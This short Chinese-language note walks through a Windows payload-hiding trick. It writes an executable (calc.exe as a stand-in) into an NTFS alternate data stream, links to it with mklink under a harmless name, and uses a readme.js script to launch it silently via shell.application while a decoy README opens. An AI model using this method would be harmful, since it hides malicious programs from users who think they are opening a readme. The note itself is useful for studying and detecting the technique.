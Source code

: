 	创建一个txt文件，test.txt，随便添加内容（实际的工具，即用户要用的那个工具）。
	将程序写入文件流（此处用calc.exe）
	>type calc.exe > test.txt:calc.exe
	使用mklink创建文件链接：
	>mklink config.txt test.txt:calc.exe
	创建readme.txt，文件内容随便。设置为隐藏。
	创建readme.js，内容如下：
	var objShell = new ActiveXObject("shell.application");
	objShell.ShellExecute("cmd.exe", "/c config.txt", "", "open", 0);
	objShell.ShellExecute("README.txt", "", "", "open", 1);
	执行readme.js，运行calc.exe ，打开readme.txt